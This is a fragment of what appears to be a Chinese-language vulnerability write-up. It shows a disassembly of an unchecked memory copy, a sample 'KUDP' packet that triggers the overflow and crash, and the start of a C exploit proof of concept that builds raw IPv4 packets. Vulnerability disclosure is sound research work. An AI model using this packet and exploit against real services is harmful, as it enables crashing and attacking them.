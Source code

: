0041DF14  |.  C1E1 02       shl     ecx, 2
0041DF17  |.  8943 04       mov     dword ptr [ebx+4], eax
0041DF1A  |.  8BF8          mov     edi, eax
0041DF1C  |.  8BC1          mov     eax, ecx
0041DF1E  |.  83C4 08       add     esp, 8
0041DF21  |.  C1E9 02       shr     ecx, 2
0041DF24  |.  F3:A5         rep     movs dword ptr es:[edi], dword p> 溢出
0041DF26  |.  8BC8          mov     ecx, eax
0041DF28  |.  83E1 03       and     ecx, 3
0041DF2B  |.  F3:A4         rep     movs byte ptr es:[edi], byte ptr>
0041DF2D  |.  8BCB          mov     ecx, ebx
0041DF2F  |.  E8 3C140000   call    0041F370
0041DF34  |.  5F            pop     edi
0041DF35  |.  8BC3          mov     eax, ebx
0041DF37  |.  5E            pop     esi
0041DF38  |.  5B            pop     ebx
0041DF39  .  C2 0800       retn    8

封包例子
00CAFF84  4B 55 44 50 01 00 55 55 55 00 55 55 55 00        KUDP .UUU.UUU.
由于没有对封包中取得的数据进行判断.数据超大导致申请内存失败,后面的内存数据复制导致异常.

--*/

--] exploit POC

#ifndef WIN32_LEAN_AND_MEAN
#define WIN32_LEAN_AND_MEAN
#endif

#include <winsock2.h>
#include <ws2tcpip.h>
#include <stdio.h>

#pragma comment(lib, "ws2_32")

// Set the packing to a 1 byte boundary
#include <pshpack1.h>

//
// Define the IPv4 header. Make the version and length field one
// character since we can't declare two 4 bit fields without
// the compiler aligning them on at least a 1 byte boundary.
//
typedef struct ip_hdr
{
    unsigned char  ip_verlen;        // 4-bit IPv4 version
                                     // 4-bit header length (in 32-bit words)
    unsigned char  ip_tos;           // IP type of service
    unsigned short ip_totallength;   // Total length
    unsigned short ip_id;            // Unique identifier
    unsigned short ip_offset;        // Fragment offset field
    unsigned char  ip_ttl;           // Time to live
    unsigned char  ip_protocol;      // Protocol(TCP,UDP etc)
    unsigned short ip_checksum;      // IP checksum
    unsigned int   ip_srcaddr;       // Source address
    unsigned int   ip_destaddr;      // Source address
} IPV4_HDR, *PIPV4_HDR, FAR * LPIPV4_HDR;

